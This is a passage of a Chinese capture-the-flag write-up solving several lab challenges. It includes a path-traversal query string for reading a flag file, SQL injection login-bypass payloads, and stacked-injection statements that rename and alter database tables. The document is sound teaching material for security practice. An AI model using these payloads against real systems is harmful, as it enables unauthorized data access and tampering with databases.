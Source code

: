 `?file=source.php?/../../../../ffffllllaaaagggg`

或

`?file=hint.php?/../../../../ffffllllaaaagggg`

## 0x2.[极客大挑战 2019]EasySQL

直接

`payload: username=admin' or '1'='1&password=aaa' or '1'='1`

`username=admin&password=aa' or '1'='1`



## 0x3.[强网杯 2019]随便注

用union select 时：

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

### 1）.堆叠注入：

show database;

show tables;

查看表结构：

```
desc `1919810931114514`--+
注意要用`引起来
或：show colunms from `1919810931114514`
```

可以知道，有两个表，words，1919810931114514(这里面有flag)。

大致查询语句应该为：select id,data from words where id=;

那么可以将words表改名为aaa，将1919810931114514改为words，再将id改为flag。（偷天换日的感觉）

>  0';rename table words to words1;
>
>  rename table `1919810931114514` to words;
>
>  alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;
>
>  desc  words;#




## 0x4.[极客大挑战 2019]Havefun

看源码：
